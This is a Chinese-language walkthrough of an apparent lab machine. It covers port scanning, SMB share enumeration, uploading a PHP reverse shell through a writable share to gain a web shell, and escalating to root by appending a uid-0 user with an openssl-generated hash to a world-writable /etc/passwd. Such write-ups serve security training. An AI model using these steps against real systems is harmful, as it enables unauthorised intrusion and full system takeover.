







[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.179 | awk -F ' ' 'print{$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

得到端口号22，25，80，139，445，2121，3306，8080，63525

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- 22端口，稍后可以搜索一下服务版本有没有信息泄露
- 25端口，邮件协议，可以尝试用户枚举
- 139和445端口，可以尝试利用samba协议
- 2121端口，ftp服务，且存在一个文件22253251-65325.twilight，允许anonymous
- 3306端口，可以尝试用默认管理员用户root爆破mysql
- 8080端口，有一个http服务

- 63525端口，也是http服务

## 漏洞扫描



没什么信息。22端口扫出的堆溢出漏洞和权限提升漏洞明显暂时用不到

# 端口分析

80端口：一个只能上传图片的页面，一个显示存在sql语法错误，但没有输入框和参数，也不存在文件包含漏洞，.htaccess也不能上传，.php.jpg也不行

8080端口和63525端口：

尝试搜索框架或者服务漏洞，没结果

3306端口爆破被封了

2121端口拿到文件但没有信息

25端口没信息

## 139和445端口



用enum4linux发现共享文件中有信息，共享目录是WRKSHARE

```
smbclient //192.168.174.179
```



成功登录

| 字段    | 含义                           |
| ------- | ------------------------------ |
| Mapping | 是否可以连接映射这个共享       |
| Listing | 是否能列出目录里面的文件（ls） |
| Writing | 是否拥有上传 / 写入文件权限    |

N/A：**工具无法判断写权限**，不是禁止，只是该扫描脚本没法检测写权限，需要手动测试。

- 尝试在/var/www/html上上传一个反弹shell，然后在网页的url上直接访问，这里我选中的是/usr/share/webshells/php/php-reverse-shell.php

```
cd /var/www/html（要在脚本所在目录，使用smbclient连接，再上传脚本才能上传成功）
put php-reverse-shell.php(改过内容)
```

上传成功后直接访问

```
http://192.168.174.179/php-reverse-shell.php
```

成功拿到shell



# 提权

```
whereis python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

拿到功能完整的tty

```
find / -writable -type f 2>/dev/null | grep -v sys | grep -v proc
```

发现/etc/passwd的权限是777

- 我们可以尝试导入一个我们创建的用户，并且设置uid和gid都为为0，家目录为root

- /etc/passwd的格式

```
用户名:密码占位符:UID:GID:注释信息:家目录:登录shell
```

```
openssl passwd -6 123456(也可以加引号)
结果：$6$Hv31F8MeYe3Wvo.p$H2pM/mv7xuUIrp/Dra61zLL04jlTIsy5wR.DXJGkSa0cOQb7faFvuUKlCa5FzFGKyv8NIATLlcaRsMwewFXwK0

```

```
hack:$6$Hv31F8MeYe3Wvo.p$H2pM/mv7xuUIrp/Dra61zLL04jlTIsy5wR.DXJGkSa0cOQb7faFvuUKlCa5FzFGKyv8NIATLlcaRsMwewFXwK0:0:0:nb:/root:/bin/bash
```

写入保存后直接通过ssh登录



成功提权